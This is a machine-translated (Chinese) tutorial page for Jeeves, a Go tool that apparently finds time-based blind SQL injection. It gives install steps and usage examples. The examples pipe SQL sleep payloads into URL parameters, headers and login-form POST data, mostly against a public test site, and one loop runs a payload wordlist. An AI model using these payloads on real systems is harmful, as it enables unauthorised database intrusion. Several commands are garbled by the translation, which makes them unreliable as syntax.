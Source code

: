 # Jeeves:基于时间的盲 SQLInjection Finder

> 原文：<https://kalilinuxtutorials.com/jeeves/>

[![](img//c26b736a6e2ac76f60d1adbc92f58e03.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg4m3-iHvwR142XT3M8V30YCjXaWEXiVK5FUy7tCr2iuC17Ko5Vx2j5eR2KW-y_AdK2-Lw1JPm7-9_R2452fJU-IJ6yvudsAPhIqymzJVeDckeq5ADEob9QSJpdZ057Q2U7nQ_SSveMN11wFr8D2c1FRo6cMdvy0z8DVAU5D6u9qLCUjsCUO06S40An/s801/gojayyyy%20(2).png)

Jeeves 是为通过 recon 寻找基于时间的盲 SQL 注入而设计的。

## 安装和要求

安装 Jeeves

**$去安装 github.com/ferreiraklet/Jeeves@latest**

运筹学

**git 克隆 https://github . com/ferre raklet/jeeves . git
$ CD jeeves
$ go build jeeves . go
$ chmod+x jeeves
$。/jeeves-h〔t5〕**

## 用法和解释

## 单一 URL

**附和'https://redacted.com/index.php？id = your _ time _ based _ blind _ payload _ here ' | jeeves-t payload _ time
echo "http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves–payload-time 5【回声"http://testphp.vulnweb.com/artists.php T2？artist = " | QS replace "(select(0)from(select(sleep(10)))v)" | jeeves-t 10**

在有效负载时间内，您必须使用有效负载中提到的时间

### 从列表中

`**cat targets | jeeves --payload-time 5**`

### 添加标题

注意语法！必须相同= >

**附和"http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves-t 5-H "测试:测试；OtherHeader:值；其他 2:值"**

## 使用代理

**附和"http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves-t 5–proxy " http://IP:port "
echo "http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves-t 5-p " http://IP:port "**

## 代理+头= >

**附和"http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves–payload-time 5–proxy " http://IP:port "-H " User-Agent:xxxx "**

### 发布请求

通过 post 请求发送数据(登录表单等)

注意语法！必须相等！->

**echo " https://example . com/log in . aspx " | jeeves-t 10-d " user =(select(0)from(select(sleep(5)))v)&password = XXX "
echo " https://example . com/log in . aspx " | jeeves-t 10-H " header 1:value 1 "-d " username = admin&password = '+(select * from(select(sleep(5)))a)+'-p " http://your proxy:port "【关键词**

## 另一种用法

你可以使用 Jeeves 与其他工具，如 gau，gauplus，waybackurls，qsreplace 和 bhedak，掌握他的力量

**命令行标志**

**用法:
-t，–payload-time，从 payload 开始的时间
-p，–proxy 发送流量到一个代理
-c 设置并发，默认 25
-H，–Headers 自定义头
-d，–data 发送 Post 请求带数据
-h 显示此帮助消息**

与 sql 有效负载单词列表一起使用

**cat sql_wordlist.txt |在读取有效负载时；do echo http://testphp.vulnweb.com/artists.php?artist= | QS replace $ payload | jeeves-t 5；完成**

[Download](https://github.com/ferreiraklet/Jeeves)